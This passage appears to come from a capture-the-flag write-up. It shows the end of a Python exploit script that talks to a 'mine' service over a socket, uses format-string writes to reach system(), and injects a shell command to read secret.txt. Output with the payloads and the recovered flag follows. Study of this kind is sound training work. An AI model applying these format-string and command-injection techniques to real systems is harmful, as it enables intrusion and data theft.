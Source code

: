 ```python
# send payload, in another mine. we're going to delete it 
# right away to call system()
time.sleep(0.05)
s.send('1\n')
time.sleep(0.05)
print s.recv(512)

# shell command goes here
s.send('cat secret.txt 2&>1\n') 
time.sleep(0.05)
print s.recv(512)

# second command
s.send('bleh\n') #0x804b02c
time.sleep(0.05)
print s.recv(512)

# third command
s.send('blah\n')
time.sleep(0.05)
print s.recv(512)

# invoke Delete Mine, which triggers system() which our commands
s.send('3\n')
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('n\n')
time.sleep(0.05)
print s.recv(512)
s.send('y\n')
time.sleep(0.05)
print s.recv(512)

time.sleep(0.05)
print s.recv(512)
	
s.close()
```

After running this exploit, it returns the flag:

```bash
3^JDo you want to delete?
Location: %34272c%11$hn
Type: AA..CCCC
y/n

n^JDo you want to delete?
Location: %2052c%11$hn
Type: AA..CCCC
y/n

n^JDo you want to delete?
Location: cat secret.txt 2&>1
Type: bleh
y/n

y^JFLAG{d1aM0nd>G0lD}
1) Add mine
2) Show mines
3) Delete mine
```
